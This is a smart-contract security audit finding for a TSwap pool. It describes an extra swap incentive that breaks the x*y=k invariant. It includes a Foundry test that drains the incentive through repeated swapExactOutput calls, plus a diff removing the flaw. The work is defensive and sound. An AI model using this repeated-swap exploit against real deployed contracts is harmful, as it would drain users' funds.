 A user could malicioulsy drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol. Thus, breaking the protocol's core invariant.

**Proof of Concept:**

1. A user swaps 10 times and collects all the extra incentive of `1_000_000_000_000_000_000`
2. User continues to swap until all protocol funds are drained

**Proof of Code:**

Place the following into `TSwapPool.t.sol`

```solidity
    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);
        assertEq(actualDeltaY, expectedDeltaY);
    }
```

**Recommended Mitigation:**

Remove the extra incentive mechanism. If you want to keep this in, we should account for the change in the x * y = k protocol invariant. Or, we should set aside tokens in the same way we do with fees.

```diff
-   swap_count++;
-       if (swap_count >= SWAP_COUNT_MAX) {
-           swap_count = 0;
-           outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
-       }
```
